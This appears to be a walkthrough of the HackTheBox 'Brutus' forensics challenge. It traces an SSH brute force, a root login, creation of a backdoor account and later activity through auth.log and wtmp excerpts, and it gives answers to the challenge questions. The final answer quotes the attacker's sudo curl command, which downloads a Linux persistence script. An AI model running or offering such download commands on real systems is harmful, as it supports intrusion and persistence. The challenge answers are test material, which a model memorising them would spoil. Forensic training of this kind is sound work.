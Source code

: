 ```yaml
---
title: Brutus
date: 2024-12-13 11:00:00 +/-TTTT
categories: [DFIR]
tags: [htb]     # TAG names should always be lowercase
description: very easy Sherlock on HackTheBox writeup
---
```


# Brutus

## Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


1. Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?


Opening the logs we start looking for patterns, or rather deviating patterns. A brute force attack would have a lot of requests within a certain time span.
From the start of the log till 06:31:01 we see a lot of sessions opening and closing. After that we see that there are multiple attempts to login as an invalid user: admin. We can see that the attacker is using a different port for each attempt.

```
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
---
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460

etc.
```

`65.2.161.68`

2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

Looking for the source IP of the attacker we can search for succesful login attempts. 


```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```

`root`

3. Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

In the zip file where two files: the _auth.log_ file, and also a wtmp file.
We can _parse_ the contents of this file using _utmpdump_. Looking for login sessions of root of the day of the attack and combing this with the source IP of the attacker(which is information we found in the previous tasks), we can find the timestamp: 
```
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
```

` 2024-03-06 06:32:45 `

4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Looking through the logs we search for a succesful login of the _admin_ account. The catch is that the first time the admin user is logged in, its an automated login from the bruteforce attempt. The session gets killed shortly after.
So instead we look for a session which stays open, and actions are carried out by the attacker.

```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

`37`

5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

Shortly after logging in manually, we can see the attacker adding an user.

```
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```

 `cyberjunkie`

6. What is the MITRE ATT&CK sub-technique ID used for persistence?

Searching through the _persistance_ tactics we find that making a local account is in fact sub-technique ID _T1136.001_.

![MITRE subtechnique](/assets/img/post_images/Brutus_MITRE.png)
_T1136.001_

7. How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

We know from the wmtp file that the first terminal session started at _06:32:45_.
Before the user logs in with his new account he ends the session on the admin account at _06:37:24_:
```
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

Subtract the later from the first and you'll find that the session lasted 4 minutes and 39 seconds of _279 seconds_.



8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Looking for an executed command as _cyberjunkie_ with _sudo_ we find the following entry in the auth.log:
`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

